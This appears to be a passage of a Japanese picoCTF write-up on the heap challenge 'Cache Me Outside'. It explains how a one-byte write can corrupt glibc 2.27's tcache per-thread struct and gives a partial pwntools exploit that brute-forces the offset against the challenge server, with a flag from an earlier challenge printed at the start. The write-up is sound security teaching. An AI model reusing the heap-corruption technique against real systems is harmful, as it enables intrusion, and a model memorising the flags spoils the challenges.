 ```
$ python solve.py 
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}\x00\x00
```

# Cache Me Outside
heap問。ソース配布なし。フラグが何度か繰り返しheap上に展開されます。そのあと、heap最下部からの相対オフセットで1バイト書き換えられるようです。配布されているlibcは2.27なので、tcacheが有効です。この場合1バイトといえばper thread structの編集がよさそうです。heapの先頭に位置するこの構造体を編集することによって、次に確保するチャンクをコントロールすることができます。マイナスするオフセットの値を、デバッガを見ながら適当に調整し、フラグが展開されているどこかを指すように値を編集します。

しかしリモートと手元でオフセットが違ったので、8刻みで探索し、allocに失敗するオフセットを特定しました。探索時は最上位バイトを非ゼロになるよう編集するようにしていくと、確実にallocできないので便利です。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './heapedit'
HOST = 'mercury.picoctf.net'
PORT = 10097

elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:
                print("remote")
                return remote(HOST, PORT)

def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

# bruteforce offset to tcache per-thread struct
for i in range(0x1000):
    r = start()

    r.sendlineafter(':', '-5144')
    # r.sendlineafter(':', str(-8*i))

    r.sendlineafter(':', '\x00')
    # r.sendlineafter(':', '\xff')
    ret = r.recvuntil('\n')
    if 'help you: this is a random string.' not in ret:
```